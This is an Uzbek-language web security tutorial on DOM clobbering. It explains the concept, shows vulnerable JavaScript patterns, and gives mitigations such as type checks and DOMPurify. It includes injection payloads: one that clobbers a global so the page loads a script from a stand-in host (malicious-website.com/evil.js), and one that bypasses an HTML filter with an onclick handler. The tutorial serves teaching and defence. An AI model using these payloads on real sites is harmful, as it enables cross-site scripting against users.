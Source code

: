 # Dom clobbering

Biz bugungi bo'limda DOM clobbering nima ekanligi haqida, uning haqiqiy ta'siri qanday ekanligi va uning qanday oldini olish mumkinligi haqida gaplashamiz.

## DOM Clobbering nima ? <a href="#dom-clobbering-nima" id="dom-clobbering-nima"></a>

DOM clobbering bu sizga HTML ineksiya imkoniyati bilan DOMni manipulation qilish va web sahifaning JavaScript xatti harakatlariga ta'sir etishdir. DOM Clobbering qayerda XSS qilish imkoni bo'lmasa o'sha yerda foydali hisoblanadi, ammo siz faqatgina `id` va `name` attributlarinigina HTML da boshqarishingiz mumkin. Juda keng tarqalgan DOM clobbering shakli bu umuman boshqa elementni global o'zgaruvchi ustidan yozish imkonini berishidir, ya'ni web sayt uni xavfsiz bo'lmagan sharoitda ishlatishida hosil bo'ladi, masalan dynamic script URL yasash holatini keltirishimiz mumkin.

Clobbering atamasi obyektning global o'zgaruvchisi yoki xususiyatini "to'ldirayotganingiz"da va uning o'rniga DOM elementi yoki HTML to'plami bilan qayta yozishingizdan kelib chiqadi. Masalan, siz DOM obyektlaridan boshqa JavaScript obyektlarining ustiga yozish uchun foydalanishingiz va formaning haqiqiy `submit()` funksiyasiga xalaqit berish uchun `submit` kabi xavfli nomlardan foydalanishingiz mumkin.

## Qanday qilib DOM Clobberingni exploit qilish mumkin ? <a href="#qanday-qilib-dom-clobbering-ni-exploit-qilish-mumkin" id="qanday-qilib-dom-clobbering-ni-exploit-qilish-mumkin"></a>

JavaScript dasturchilari tomonidan ishlatiladigan keng tarqalgan pattern:

```javascript
var someObject = window.someObject || {};
```

Agar siz sahifadagi biror bir HTML ni nazorat qila olsangiz, unda siz `someObject` o'zgaruvchisini DOM node elementi bilan to'ldirishingiz mumkin, quyida kodni keltiramiz:

```html
<script>
    window.onload = function(){
        let someObject = window.someObject || {};
        let script = document.createElement('script');
        script.src = someObject.url;
        document.body.appendChild(script);
    };
</script>
```

Ushbu zaif koddan foydalanish uchun siz `someObject` havolasini element bilan yopish uchun quyidagi HTML kodni kiritishingiz mumkin:

```html
<a id=someObject><a id=someObject name=url href=//malicious-website.com/evil.js>
```

Hozir biz kiritgan bir xil ID va bir xil DOM guruhi endi birlashadi va DOM kollektsiyasini hosil qiladi. DOM clobbering endi biz kiritgan DOM kollektsiyasi bilan uni `someObject` ni to'ldiradi. Tashqi skriptga ishora qiluvchi `someObject` obyektining `url` xususiyatini yopish uchun oxirgi elementda `name` atributidan foydalaniladi.

:::caution **Lab**
 [XSSni yoqish uchun DOM clobberingdan foydalanish ≫](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-xss-exploiting-dom-clobbering)
:::

Yana bir keng tarqalgan usul `form`elementi bilan birga ishlatishdir, masalan DOM clobbering xususiyatlari uchun `input.` Masalan bu, `attributes` xususiyatini bloklash, uni o'z logikalarida ishlatadigan client-side filtrlarini chetlab o'tish imkonini beradi. Filtr `attributes` xususiyatini enumerate qilsada, u aslida hech qanday atributlarni olib tashlamaydi, chunki xususiyat DOM node elementi bilan o'ralgan. Natijada, siz odatda filtrlanadigan zararli atributlarni kiritishingiz mumkin bo'ladi. Masalan, quyidagi ineksiyani ko'rib chiqing:

```html
 <form onclick=alert(1)><input id=attributes>Click me
```

Bunday holda, client-side filtr DOMni kesib o'tadi va whitelistga kiritilgan`form` elementiga duch keladi. Odatda, filtr forma elementining `attributes`xususiyati orqali o‘tadi va blacklistga kiritilgan atributlarni olib tashlaydi. Biroq, `attributes` xususiyati `input` elementi bilan o'ralganligi sababli, filtr o'rniga `input` elementi orqali aylanadi. `input` elementi aniqlanmagan uzunlikka ega bo'lgani uchun filtrning for tsikli uchun shartlar (masalan, `i < element.attributes.length`) bajarilmaydi va filtr shunchaki keyingi elementga o'tadi. Buning natijasida `onclick` hodisasi filtr tomonidan butunlay e'tiborga olinmaydi, bu esa brauzerda `alert()` funksiyasini chaqirish imkonini beradi.

:::caution **Lab**
 [HTML filtrlarini bypass qilish uchun DOM Clobbering atributlari ≫](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-clobbering-attributes-to-bypass-html-filters)
:::

## Qanday qilib DOM Clobberingni oldini olish mumkin ? <a href="#qanday-qilib-dom-clobberingni-oldini-olish-mumkin" id="qanday-qilib-dom-clobberingni-oldini-olish-mumkin"></a>

Oddiy so'zlar bilan aytganda, obyektlar yoki funktsiyalar siz kutganingizdek ekanligiga ishonch hosil qilish uchun tekshiruvlarni amalga oshirish orqali DOM-clobbing hujumlarining oldini olishingiz mumkin. Masalan, DOM node elementining atributlari xususiyati aslida `NamedNodeMap` namunasi ekanligini tekshirishingiz mumkin. Bu xususiyat yopilgan HTML elementi emas, balki atributlar xususiyati ekanligini ta'minlaydi.

Shuningdek, || mantiqiy OR operatori bilan birgalikda global oʻzgaruvchiga havola qiluvchi kod yozmasligingiz kerak, chunki bu DOM clobbering zaifliklariga olib kelishi mumkin.

Xulosa qilib aytganda:

* Har bir obyektni DOM node elementi emasligini tekshiring
* Yomon kod patternlaridan foydalanmang. Global o'zgaruvchilar ishlatayotganda OR operatoridan iloji boricha foydalanmang
* Yaxshi ishlab chiqilgan kutubxonadan foydalaning misol uchun [**`DOMPurify`**](https://github.com/cure53/DOMPurify) kutubxonasidan, u DOM clobbering xujumini oldini olishga yordam beradi.
